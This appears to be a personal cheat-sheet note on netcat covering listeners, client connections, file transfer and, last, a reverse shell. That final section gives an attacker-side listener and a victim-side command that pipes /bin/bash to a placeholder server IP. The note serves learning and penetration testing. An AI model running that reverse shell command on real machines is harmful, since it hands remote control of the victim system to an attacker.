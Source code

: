 **Title:** netcat
**Tags:** [[Common]]
**Topics:** #Common  #netcat

---
# netcat
Netcat is a tool that reads and writes data across network connections, using TCP or UDP protocol. More information [Link](https://blog.ikuamike.io/posts/2021/netcat/)

## Server Mode
Use netcat to listen for connections. What this does is open a port (either tcp or udp) on the system. By default netcat listens on tcp.

> Basic Listener
```bash
$ nc -lvnp PORT
```
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

To listen on UDP must use `-u`.

## Client Mode
Use netcat to connect to an open port on a system. This can be beneficial for manually checking service banners or just checking if the port is open.

> Basic Connection
```bash
$ nc -vn @IP PORT
```

For a UDP connection we only add the `-u` option.

## File Transfer
Transfer files over the connection from one system to another without distortion.

> Listener
```bash
nc -lp PORT > /path/to/outfile 
```

> Client
```bash
$ nc -w3 @Listener_IP PORT < /path/to/infile
```
[-w]: Define the timeout in seconds.


## Reverse Shell
Use netcat in server mode to listen for connections then supply the shell from the client. This will allow the session on the server to run commands on the client once the shell is received.

> Server (Attacker Machine)
```bash
$ nc -lvnp 8080
```

> Client (Victim Machine)
```bash
$ nc -e /bin/bash @Server_IP PORT
```
[-e]: Execute external program after accepting a connection or making connection.
